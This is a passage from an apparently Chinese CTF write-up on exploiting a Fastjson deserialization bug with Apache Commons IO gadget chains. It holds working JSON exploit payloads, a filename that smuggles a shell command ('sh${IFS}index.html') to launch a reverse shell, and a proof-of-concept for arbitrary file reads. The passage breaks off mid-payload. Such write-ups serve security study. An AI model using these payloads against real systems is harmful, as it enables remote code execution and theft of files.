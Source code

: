 ```java
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    },
    "trigger3":{
      "@type":"java.lang.AutoCloseable",
      "@type":"org.apache.commons.io.input.XmlStreamReader",
      "is":{
        "@type":"org.apache.commons.io.input.TeeInputStream",
        "input":{
          "$ref":"$.input"
        },
        "branch":{
          "$ref":"$.branch"
        },
        "closeBranch": true
      },
      "httpContentType":"text/xml",
      "lenient":false,
      "defaultEncoding":"UTF-8"
    }
  }
}
```
然后访问copy即可下载index.html，内容为反弹shell的代码

![](https://img-blog.csdnimg.cn/1ba774cb06134f7fb31d36797d877948.png)
最后通过sh执行index.html即可反弹shell，写入的文件名为：`/tmp/a;sh${IFS}index.html;#test.8.bak` 
![](https://img-blog.csdnimg.cn/8d46662e6362441b9425249f25ea3670.png)

#### 方法二
看到官方wp，发现还可以目录遍历和文件读取
>根据这getBom 方法的代码来看，它就是先把 delegate 输入流的字节码转成 int 数组，然后拿 ByteOrderMark 里的 bytes 挨个字节遍历去比对，如果遍历过程有比对错误的 getBom 就会返回一个 null，如果遍历结束，没有比对错误那就会返回一个 ByteOrderMark 对象。所以这里文件读取 成功的标志应该是 getBom 返回结果不为 null

并且由于传入的是一个 URL 对象。这就意味着file jar http 等协议都可以使用
poc：
```java
{
    "abc": {
        "@type": "java.lang.AutoCloseable",
        "@type": "org.apache.commons.io.input.BOMInputStream",
        "delegate": {
            "@type": "org.apache.commons.io.input.ReaderInputStream",
            "reader": {
                "@type": "jdk.nashorn.api.scripting.URLReader",
                "url": "file:///D:/test/1.txt"
            },
            "charsetName": "UTF-8",
            "bufferSize": 1024
        },
        "boms": [{
            "charsetName": "UTF-8",
            "bytes": [49]
```